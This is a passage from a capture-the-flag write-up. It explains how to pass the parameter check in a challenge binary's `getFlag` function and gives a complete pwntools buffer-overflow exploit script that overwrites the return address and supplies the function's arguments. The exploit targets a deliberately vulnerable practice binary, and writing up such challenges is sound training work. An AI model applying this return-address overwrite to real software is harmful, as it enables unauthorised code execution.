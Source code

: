 ```c
  return uVar1;
}
```

- In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
- Here's my exploit script for this challenge.

```python
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

io.sendline(payload)
io.interactive()
```
